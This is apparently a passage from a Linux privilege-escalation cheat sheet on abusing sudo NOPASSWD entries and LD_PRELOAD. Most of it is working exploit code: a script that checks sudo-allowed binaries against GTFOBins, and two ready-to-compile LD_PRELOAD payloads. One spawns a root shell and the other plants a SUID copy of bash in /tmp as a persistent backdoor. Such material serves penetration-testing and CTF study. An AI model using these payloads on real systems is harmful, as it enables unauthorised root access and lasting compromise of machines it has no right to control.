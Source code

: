 ### Exploiting NOPASSWD Entries

When you see output like:

```
(scriptmanager : scriptmanager) NOPASSWD: ALL
```

You can execute commands as that user without a password:

```bash
sudo -u scriptmanager <command>
```

```bash
# Quick script to check GTFOBins for a list of sudo-allowed binaries:
#!/bin/bash
allowed=$(sudo -l | grep -Eo "[a-zA-Z0-9/._-]+")
for cmd in $allowed; do
  cmd=$(basename $cmd)
  curl -s https://gtfobins.github.io/gtfobins/$cmd/ | grep -q "sudo" && echo "[+] $cmd can be exploited via sudo!"
done
```

### LD_PRELOAD Exploitation

Requirements:

- `env_keep+=LD_PRELOAD` in sudoers
- At least one binary executable via sudo
- Real UID must equal effective UID (LD_PRELOAD is ignored otherwise)

```bash
# Check if vulnerable
sudo -l | grep "LD_PRELOAD"
# Look for: env_keep+=LD_PRELOAD

# Method 1: Simple root shell
cat > /tmp/preload.c << EOF
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/bash -p");
}
EOF

gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /tmp/preload.c
sudo LD_PRELOAD=/tmp/preload.so <allowed_command>

# Method 2: Create SUID binary 
cat > /tmp/preload.c << EOF
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
  unsetenv("LD_PRELOAD");
  system("cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash");
}
EOF

gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /tmp/preload.c
sudo LD_PRELOAD=/tmp/preload.so <allowed_command>
/tmp/rootbash -p
```